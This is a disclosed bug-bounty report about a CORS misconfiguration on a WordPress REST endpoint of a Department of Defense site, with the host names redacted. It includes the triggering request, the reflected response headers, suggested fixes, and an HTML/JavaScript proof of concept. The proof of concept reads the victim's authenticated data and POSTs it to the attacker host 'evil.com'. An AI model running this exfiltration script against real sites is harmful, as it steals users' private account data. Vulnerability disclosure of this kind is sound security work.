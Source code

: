 # (CORS) Cross-origin resource sharing misconfiguration

## Report Details
- **Report ID**: 896093
- **URL**: https://hackerone.com/reports/896093
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-11T14:43:58.412Z
- **Disclosed**: 2020-07-14T17:19:49.051Z

## Reporter
- **Username**: natanalves01001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:** Affected website: **https://██████████/wp-json**

## Impact

## Step-by-step Reproduction :

1. **Send this request:**

```javascript
GET /wp-json HTTP/1.1
Host: █████████
Connection: close
Origin: http://evil.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
```
2. **Here you can see the response headers:**

```javascript
Access-Control-Allow-Origin: http://evil.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: true
```
3. **So you can write exploit:**

```javascript
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS PoC</h2>
<html>
<body>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://██████/wp-json/", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
4. **Save file as .html and open in and see Sensitive Information.**

**Reference Exploit used:** [Exploit WordPress-5.2.4-Cross-Origin-Resource-Sharing](https://packetstormsecurity.com/files/155011/WordPress-5.2.4-Cross-Origin-Resource-Sharing.html)

## Suggested Mitigation/Remediation Actions:
**FIX 1** - It's possible to remove this access for anyone by change the source code where when someone request the Rest API and the server send a 404 (Not Found) message for the user who made the request.
Reference: https://github.com/WP-API/WP-API/issues/2338
**FIX 2** - It's also possible to create a rewrite rule on .htaccess (if the webserver it's Apache) to redirect any request that contain rest_route (eg.: "^.rest_route=/wp/") to a Not Found (404) or a Default Page.

## Impact

Cross Misconfiguration -Leakage Sensitive Information

## Attachments
No attachments
